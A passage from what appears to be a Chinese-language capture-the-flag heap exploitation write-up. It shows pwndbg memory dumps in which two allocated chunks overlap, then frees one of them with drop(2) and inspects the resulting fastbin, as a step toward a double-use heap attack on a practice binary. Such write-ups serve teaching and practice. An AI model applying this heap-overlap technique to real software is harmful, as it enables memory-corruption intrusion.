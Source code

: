看一下堆块状况：

```python
pwndbg> x/30gx 0x555555756000
0x555555756000:	0x0000000000000000	0x0000555555756008
0x555555756010:	0x0000000000000000	0x0000000000000000
0x555555756020 <stdout>:	0x00007ffff7dd2620	0x0000000000000000
0x555555756030 <stdin>:	0x00007ffff7dd18e0	0x0000000000000000
0x555555756040:	0x0000001800000001	0x0000555555757010
0x555555756050:	0x0000006800000001	0x0000555555757030
0x555555756060:	0x0000006800000001	0x00005555557570a0 #index2
0x555555756070:	0x0000006800000001	0x0000555555757110
0x555555756080:	0x0000006800000001	0x0000555555757180
0x555555756090:	0x0000006000000001	0x00005555557570a0 #index5
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
0x5555557560e0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

从上面内存中可以看到index2和index5的内存区域发生了“重叠”，并且都处于malloc状态，**<font style="color:#F5222D;">这很重要</font>**：

+ index2：malloc
+ index5：malloc

接下来我们删除第二个chunk：

```python
drop(2)
```

```python
pwndbg> x/70gx 0x555555757000
------------------------------------------------------------------------
0x555555757000: 0x0000000000000000  0x0000000000000021 #index0
0x555555757010: 0x6161616161616161  0x6161616161616161
------------------------------------------------------------------------
0x555555757020: 0x6161616161616161  0x0000000000000071 #index1
0x555555757030: 0x0000000000000000  0x0000000000000000
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757090: 0x0000000000000000  0x0000000000000071 #index2:free（index5：malloc)
0x5555557570a0: 0x0000000000000000  0x0000000000000000 
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757100: 0x0000000000000000  0x0000000000000071 #index3
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757170: 0x0000000000000000  0x0000000000000071 #index4
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x5555557571e0: 0x0000000000000000  0x0000000000020e21 #top_chunk
......(省略数据的内容均为空)
0x555555757220: 0x0000000000000000  0x0000000000000000
------------------------------------------------------------------------
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555757090 ◂— 0x0
0x80: 0x0
unsortedbin
```